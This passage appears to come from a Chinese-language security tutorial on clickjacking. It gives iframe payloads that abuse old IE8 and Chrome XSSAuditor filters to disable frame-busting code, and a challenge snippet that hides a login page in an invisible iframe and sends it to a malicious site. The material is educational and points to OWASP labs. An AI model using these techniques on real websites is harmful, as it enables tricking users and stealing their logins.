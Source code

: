 攻击者视角：

```html
<iframe src="http://目标网站/?param=<script>if">
```

### Chrome 4.0 XSSAuditor过滤器

它的行为与IE8 XSS过滤器略有不同，因为使用此过滤器时，攻击者可以通过在请求参数中传递代码来禁用特定的“脚本”。这使得框架页面可以专门针对包含帧破坏代码的单一片段，同时保留其他代码的完整性。

攻击者视角：

```html
<iframe src="http://目标网站/?param=if(top+!%3D+self)+%7B+top.location%3Dself.location%3B+%7D">
```

## 挑战

检查以下代码：

```html
<div style="position: absolute; opacity: 0;">
  <iframe src="https://合法网站.com/login" width="500" height="500"></iframe>
</div>
<button onclick="document.getElementsByTagName('iframe')[0].contentWindow.location='恶意网站.com';">点击我</button>
```

确定此代码片段中的点击劫持漏洞。识别隐藏的iframe如何利用用户点击按钮的行为，引导他们进入恶意网站。

## 实验室

* [OWASP WebGoat](https://owasp.org/www-project-webgoat/)
* [OWASP客户端点击劫持测试](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/11-Client_Side_Testing/09-Testing_for_Clickjacking)

## 参考文献

* [Clickjacker.io - Saurabh Banawar - 2020年5月10日](https://clickjacker.io)
* [点击劫持 - Gustav Rydstedt - 2020年4月28日](https://owasp.org/www-community/attacks/Clickjacking)
* [Synopsys点击劫持 - BlackDuck - 2019年11月29日](https://www.synopsys.com/glossary/what-is-clickjacking.html#B)
* [Web-Security点击劫持 - PortSwigger - 2019年10月12日](https://portswigger.net/web-security/clickjacking)